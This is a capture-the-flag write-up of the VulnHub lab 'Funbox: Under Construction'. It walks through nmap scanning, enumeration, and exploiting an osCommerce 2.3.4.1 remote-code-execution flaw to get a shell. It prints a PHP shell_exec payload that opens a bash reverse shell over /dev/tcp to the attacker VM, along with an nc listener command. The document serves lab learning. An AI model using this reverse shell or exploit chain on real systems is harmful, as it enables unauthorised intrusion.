





Funbox: Under Construction!   (Source: https://www.vulnhub.com/entry/funbox-under-construction,715/)

First I need to learn the target VMs IP address so I ran a simple nmap discovery scan

    nmap -sn 192.168.100.0/24

        -sn                 --> Skips port scans

        192.168.100.0/24    --> Scans the entire subnet

    192.168.100.1 --> Host machine / virtual router (gateway)
    
    192.168.100.2 --> DHCP server
    
    192.168.100.3 --> Attacker VM (Kali)
    
    192.168.100.5 --> Target VM

Nice! We now know that the targets IP address is in fact 192.168.100.5. Lets try and learn a bit more about this target.

    nmap -sV -O -sC --script=vuln -T 4 192.168.100.5 -oN results.txt

        -sV             --> Determines service / version info
        
        -O              --> Determines which OS is running
        
        -sC             --> Runs the default nmap scripts
        
        --script=vuln   --> Runs nmap vulnerability scans
        
        -T 4            --> Faster timing option (default: 3)
        
        -oN             --> Outputs the scan results to a file called "results.txt"

So from the scan results we can confirm that SSH, SMTP, HTTP, POP3 & IMAP are running.

This indicates that this is a mail server we're dealing with since SMTP, POP3 and IMAP are all services used for emailing.

Let's check out the website. Maybe we can find something interesting?

I really quickly realised that this site leaks an email address.

Since emails are usernames@domain, we can assume that "hello" is an internal system account.

Maybe we can find something through directory enumeration?

We can ignore HTTP 403s since they are inaccessible to us anyways.

Interestingly, the first accessible link "http://192.168.100.5/catalog" leads to an install page for something called "osCommerce Online Merchant v2.3.4.1"
Apparently, osCommerce is used for self-hosting online stores.

After a quick google search I learned that this particular version of osCommerce Online Merchant is vulnerable to Remote Code Execution (CVE-2018-25114).

The exploit is publicly available at: https://www.exploit-db.com/exploits/44374

    -- Full transparency --
    
I had to look at a walkthrough for the PHP payload since my version wasn't working.

This was what I had before: 'shell_exec("'/bin/bash -i >& /dev/tcp/192.168.100.3/8000 0>&1'");'

Also don't forget to start a listener on x (in my case it's 8000) port you have specified in the payload before execution.

    nc -lnvp 8000

Executing...

Aaaand we're in and running as "www-data"!

![Exploit Success!][other/shell.png]
